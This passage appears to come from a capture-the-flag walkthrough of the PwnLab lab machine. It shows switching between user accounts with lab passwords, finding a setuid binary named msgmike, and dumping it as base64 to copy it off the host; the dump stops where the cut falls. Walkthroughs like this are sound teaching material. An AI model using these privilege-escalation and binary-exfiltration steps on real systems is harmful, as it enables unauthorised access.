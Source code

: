 - **mike**:

```bash
kent@pwnlab:~$ su mike
su mike
Password: SIfdsTEn6I
su: Authentication failure
```

- **kane**:

```bash
kent@pwnlab:~$ su - kane
su - kane
Password: iSv5Ym2GRo
kane@pwnlab:~$
```

In kane's folder, there is a **SUID binary** called `msgmike`:

```bash
kane@pwnlab:~$ cd 
kane@pwnlab:~$ ls -la
total 28
drwxr-x--- 2 kane kane 4096 Mar 17  2016 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 kane kane  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kane kane 3515 Mar 17  2016 .bashrc
-rwsr-sr-x 1 mike mike 5148 Mar 17  2016 msgmike
-rw-r--r-- 1 kane kane  675 Mar 17  2016 .profile
kane@pwnlab:~$ file msgmike
msgmike: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped
kane@pwnlab:~$ 
```

### Transfer `msgmike` to our machine

#### Method #1: base64

```bash
kane@pwnlab:~$ base64 msgmike
f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAYIMECDQAAABsDwAAAAAAADQAIAAIACgAHgAbAAYAAAA0
AAAANIAECDSABAgAAQAAAAEAAAUAAAAEAAAAAwAAADQBAAA0gQQINIEECBMAAAATAAAABAAAAAEA
AAABAAAAAAAAAACABAgAgAQIQAYAAEAGAAAFAAAAABAAAAEAAABABgAAQJYECECWBAggAQAAJAEA
AAYAAAAAEAAAAgAAAEwGAABMlgQITJYECOgAAADoAAAABgAAAAQAAAAEAAAASAEAAEiBBAhIgQQI
RAAAAEQAAAAEAAAABAAAAFDldGRYBQAAWIUECFiFBAgsAAAALAAAAAQAAAAEAAAAUeV0ZAAAAAAA
AAAAAAAAAAAAAAAAAAAABgAAABAAAAAvbGliL2xkLWxpbnV4LnNvLjIAAAQAAAAQAAAAAQAAAEdO
VQAAAAAAAgAAAAYAAAAgAAAABAAAABQAAAADAAAAR05VANfgsh8zshNL0XRnw7ub433riLNlAgAA
AAYAAAABAAAABQAAAAAgACAAAAAABgAAAK1L48AAAAAAAAAAAAAAAAAAAAAALAAAAAAAAAAAAAAA
EgAAAEUAAAAAAAAAAAAAACAAAAAjAAAAAAAAAAAAAAASAAAAMwAAAAAAAAAAAAAAEgAAABoAAAAA
AAAAAAAAABIAAAALAAAAPIUECAQAAAARAA8AAGxpYmMuc28uNgBfSU9fc3RkaW5fdXNlZABzZXRy
ZWdpZABzZXRyZXVpZABzeXN0ZW0AX19saWJjX3N0YXJ0X21haW4AX19nbW9uX3N0YXJ0X18AR0xJ
QkNfMi4wAAAAAgAAAAIAAgACAAEAAQABAAEAAAAQAAAAAAAAABBpaQ0AAAIAVAAAAAAAAAA0lwQI
BgIAAESXBAgHAQAASJcECAcCAABMlwQIBwMAAFCXBAgHBAAAVJcECAcFAABTg+wI6K8AAACBw1cU
AACLg/z///+FwHQF6CoAAACDxAhbwwAAAAAA/zU8lwQI/yVAlwQIAAAAAP8lRJcECGgAAAAA6eD/
////JUiXBAhoCAAAAOnQ/////yVMlwQIaBAAAADpwP////8lUJcECGgYAAAA6bD/////JVSXBAho
IAAAAOmg////Me1eieGD5PBQVFJoIIUECGiwhAQIUVZoW4QECOi/////9GaQZpBmkGaQZpBmkGaQ
ixwkw2aQZpBmkGaQZpBmkLhjlwQILWCXBAiD+AZ2GrgAAAAAhcB0EVWJ5YPsFGhglwQI/9CDxBDJ
88OQjXQmALhglwQILWCXBAjB+AKJwsHqHwHQ0fh0G7oAAAAAhdJ0ElWJ5YPsEFBoYJcECP/Sg8QQ
yfPDjXQmAI28JwAAAACAPWCXBAgAdRNVieWD7AjofP///8YFYJcECAHJ88NmkLhIlgQIixCF0nUF
65ONdgC6AAAAAIXSdPJVieWD7BRQ/9KDxBDJ6XX///+NTCQEg+Tw/3H8VYnlUYPsBIPsCGjqAwAA
aOoDAADosv7//4PEEIPsCGjqAwAAaOoDAADovf7//4PEEIPsDGhAhQQI6G3+//+DxBCLTfzJjWH8
w2aQVVcx/1ZT6NX+//+Bw30SAACD7ByLbCQwjbMM////6AX+//+Ngwj///8pxsH+AoX2dCeNtgAA
AACLRCQ4iSwkiUQkCItEJDSJRCQE/5S7CP///4PHATn3dd+DxBxbXl9dw+sNkJCQkJCQkJCQkJCQ
kPPDAABTg+wI6GP+//+BwwsSAACDxAhbwwMAAAABAAIAY2F0IC9ob21lL21pa2UvbXNnLnR4dAAA
```